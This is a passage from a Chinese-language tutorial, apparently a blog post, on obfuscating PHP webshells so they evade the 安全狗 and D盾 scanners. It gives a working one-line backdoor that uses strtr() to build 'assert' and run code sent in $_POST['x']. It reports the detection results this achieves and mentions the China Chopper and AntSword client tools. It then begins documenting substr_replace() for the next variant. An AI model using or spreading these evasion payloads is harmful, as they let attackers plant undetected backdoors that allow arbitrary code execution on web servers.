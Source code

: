 ![0Mipl9.png](https://s1.ax1x.com/2020/10/01/0Mipl9.png)

此时是可以执行简单的命令的。因为临时用的 PHPStudy 环境，所以 D 盾没有完全发挥监控的作用，因为 D 盾得在 IIS 环境下测试才可以完全发挥功能，目前我们只临时用 D 盾做 Webshell 查杀的功能。

另外虽然此时这个 Webshell 已经免杀了，且也可以执行任意命令，但是如果我使用中国菜刀或者中国蚁剑之类的一句话客户端工具去连接的话，依然还是会被拦截的，这个涉及到蚁剑的自定义编码和解码器了，这个会在下文中单独介绍，目前这部分内容我们只研究基本的 Webshell 免杀

#### strtr()

```php
strtr(string,from,to)
```

strtr() 函数转换字符串中特定的字符。

| 参数     | 描述                                                         |
| :------- | :----------------------------------------------------------- |
| *string* | 必需。规定要转换的字符串。                                   |
| *from*   | 必需（除非使用数组）。规定要改变的字符。                     |
| *to*     | 必需（除非使用数组）。规定要改变为的字符。                   |
| *array*  | 必需（除非使用 *from* 和 *to*）。数组，其中的键名是更改的原始字符，键值是更改的目标字符。 |

依然对字符串进行简单地处理一下：

```php
<?php 
    $a = strtr('azxcvt','zxcv','sser');
    $a($_POST['x']);
?>
```

此时就已经过掉安全狗了，D 盾检测级别降到了 1 级，检测结果如下：

| 安全狗       | D盾                 |
| :----------- | :------------------ |
| 0 个安全风险 | 级别 1 可疑变量函数 |

#### substr_replace()

```php
substr_replace(string,replacement,start,length)
```

substr_replace() 函数把字符串 string 的一部分替换为另一个字符串 replacement。

| 参数          | 描述                                                         |
| :------------ | :----------------------------------------------------------- |
| *string*      | 必需。规定要检查的字符串。                                   |
| *replacement* | 必需。规定要插入的字符串。                                   |
| *start*       | 必需。规定在字符串的何处开始替换。**正数** - 在字符串中的指定位置开始替换; **负数** - 在从字符串结尾的指定位置开始替换; **0** - 在字符串中的第一个字符处开始替换 |
| *length*      | 可选。规定要替换多少个字符。默认是与字符串长度相同。**正数** - 被替换的字符串长度; **负数** - 表示待替换的子字符串结尾处距离 *string* 末端的字符个数。**0** - 插入而非替换 |
